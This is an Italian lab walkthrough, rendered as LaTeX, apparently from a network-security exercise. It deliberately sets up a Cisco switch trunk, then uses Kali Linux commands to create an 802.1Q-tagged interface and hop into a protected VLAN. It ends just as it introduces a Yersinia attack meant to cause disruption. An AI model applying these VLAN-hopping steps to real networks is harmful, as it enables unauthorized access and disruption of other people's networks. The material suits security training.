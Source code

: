 \documentclass[11pt,a4paper]{article}
\begin{document}
\paragraph{1. Setup dello Switch
(vIOS-L2)}\label{setup-dello-switch-vios-l2}

Creiamo la zona protetta e apriamo il "tunnel" per
l\textquotesingle attaccante:

Cisco CLI

Switch\# conf t

Switch(config)\# vlan 10

Switch(config-vlan)\# name AREA\_PROTETTA

Switch(config-vlan)\# exit

Switch(config)\# interface GigabitEthernet 0/1

Switch(config-if)\# switchport trunk encapsulation dot1q

Switch(config-if)\# switchport mode trunk

Switch(config-if)\# no shutdown

\paragraph{2. Infiltrazione da Kali Linux (VLAN
Hopping)}\label{infiltrazione-da-kali-linux-vlan-hopping}

Dobbiamo dire al kernel Linux di gestire i tag 802.1Q per "parlare" con
la VLAN 10.

Bash

\# Carichiamo il modulo per il tagging

sudo modprobe 8021q

\# Creiamo l\textquotesingle interfaccia virtuale legata alla VLAN 10

sudo ip link add link eth0 name eth0.10 type vlan id 10

sudo ip link set dev eth0.10 up

\# Assegniamo un IP per muoverci nella nuova rete

sudo ip addr add 10.10.10.100/24 dev eth0.10

\paragraph{3. Attacco con Yersinia
(Post-Exploitation)}\label{attacco-con-yersinia-post-exploitation}

Ora che Kali è "dentro" la VLAN 10, possiamo usare Yersinia per creare
il caos nel segmento protetto:
\end{document}
